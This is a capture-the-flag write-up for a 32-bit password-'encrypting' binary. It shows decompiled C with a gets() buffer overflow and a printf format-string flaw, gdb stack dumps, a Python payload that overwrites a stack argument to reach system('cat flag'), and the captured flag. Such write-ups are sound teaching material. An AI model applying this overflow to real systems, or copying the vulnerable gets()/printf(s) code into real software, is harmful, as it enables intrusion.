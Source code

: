 # Password encrypting tool (Exploit 100)

## Problem

Our second newest programmer created a tool so that we can encrypt our usual passwords and use more secure ones wherever we register new accounts. He said that he left some sort of an easter egg that could leverage you, but he doesn't really expect anyone to get it. You are the newest programmer, can you find it and prove him you are the one?

Hack the target when you've figured out with this file.

## Analysis

This appears to be the important part of the code, it seems to contain an easter egg. It appears that if we can somehow overflow the value 0xDADADADA that was passed into function `sub_80484FD` it will give us the flag.

```
int sub_80485A4()
{
  sub_80484FD(0xDADADADA);
  return 0;
}

//the address of the comparison to break point -  `.text:08048526 cmp     [ebp+arg_0], 0BADB0169h`
int __cdecl sub_80484FD(int a1)
{
  size_t i; // [sp+18h] [bp-30h]@3
  char s[32]; // [sp+1Ch] [bp-2Ch]@1
  int v4; // [sp+3Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  printf("Enter password: ");
  gets(s);
  if ( a1 == 0xBADB0169 )
  {
    system("cat flag"); //right here is the easter egg, al is set as 0xDADADADA it needs to be 0xBADB0169 to trigger the easter egg
  }
  else
  {
    for ( i = 0; i < strlen(s); ++i )
      s[i] ^= a1;
    printf("Your new secure password is: ");
    printf(s);
  }
  return *MK_FP(__GS__, 20) ^ v4;
}
```
Lets breakpoint the comparison and see if we can find `0xDADADADA`, and smash it!

## Solution
Credit: [@gellin](https://github.com/gellin)

```
root@kali:~/Desktop# gdb ./e100
(gdb) b* 0x8048526
Breakpoint 1 at 0x8048526
(gdb) r
Starting program: /root/Desktop/e100 
Enter password: AAAAAAAAAAA

Breakpoint 1, 0x08048526 in ?? ()
(gdb) x/64x $esp
0xffffd400: 0xffffd41c  0x00000000  0x000000c2  0xf7ea0586
0xffffd410: 0xffffffff  0xffffd43e  0xf7e18bf8  0x41414141
0xffffd420: 0x41414141  0x00414141  0x00000001  0x08048361
0xffffd430: 0xffffd664  0x0000002f  0x0804a000  0xfc148e00
0xffffd440: 0x00000001  0xf7fb2000  0xffffd468  0x080485b9
0xffffd450: 0xdadadada  0xf7ffd000  0x080485cb  0xf7fb2000 //BINGO at the start of this line
0xffffd460: 0x080485c0  0x00000000  0x00000000  0xf7e25a63
0xffffd470: 0x00000001  0xffffd504  0xffffd50c  0xf7feb7da
0xffffd480: 0x00000001  0xffffd504  0xffffd4a4  0x0804a024
0xffffd490: 0x0804825c  0xf7fb2000  0x00000000  0x00000000
0xffffd4a0: 0x00000000  0x17bd6a4a  0x2ca1ce5a  0x00000000
0xffffd4b0: 0x00000000  0x00000000  0x00000001  0x08048400
0xffffd4c0: 0x00000000  0xf7ff1020  0xf7e25979  0xf7ffd000
0xffffd4d0: 0x00000001  0x08048400  0x00000000  0x08048421
0xffffd4e0: 0x080485a4  0x00000001  0xffffd504  0x080485c0
0xffffd4f0: 0x08048630  0xf7febc90  0xffffd4fc  0x0000001c
(gdb) c
Continuing.
Your new secure password is: �����������[Inferior 1 (process 4438) exited normally]
(gdb) r
Starting program: /root/Desktop/e100 
Enter password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048526 in ?? ()
(gdb) x/64x $esp
0xffffd400: 0xffffd41c  0x00000000  0x000000c2  0xf7ea0586
0xffffd410: 0xffffffff  0xffffd43e  0xf7e18bf8  0x41414141
0xffffd420: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd430: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd440: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd450: 0x41414141  0x41414141  0x41414141  0xf7004141 //:OOO we can smash it
0xffffd460: 0x080485c0  0x00000000  0x00000000  0xf7e25a63
0xffffd470: 0x00000001  0xffffd504  0xffffd50c  0xf7feb7da
0xffffd480: 0x00000001  0xffffd504  0xffffd4a4  0x0804a024
0xffffd490: 0x0804825c  0xf7fb2000  0x00000000  0x00000000
0xffffd4a0: 0x00000000  0x50fcfb1c  0x6be05f0c  0x00000000
0xffffd4b0: 0x00000000  0x00000000  0x00000001  0x08048400
0xffffd4c0: 0x00000000  0xf7ff1020  0xf7e25979  0xf7ffd000
0xffffd4d0: 0x00000001  0x08048400  0x00000000  0x08048421
0xffffd4e0: 0x080485a4  0x00000001  0xffffd504  0x080485c0
0xffffd4f0: 0x08048630  0xf7febc90  0xffffd4fc  0x0000001c
(gdb) Quit
```

So we write up

```
import struct 
print "A"*52+struct.pack('I', 0xBADB0169)
````

Once supplied as the password the server responds with `DCTF{3671bacdb5ea5bc26982df7da6de196e}`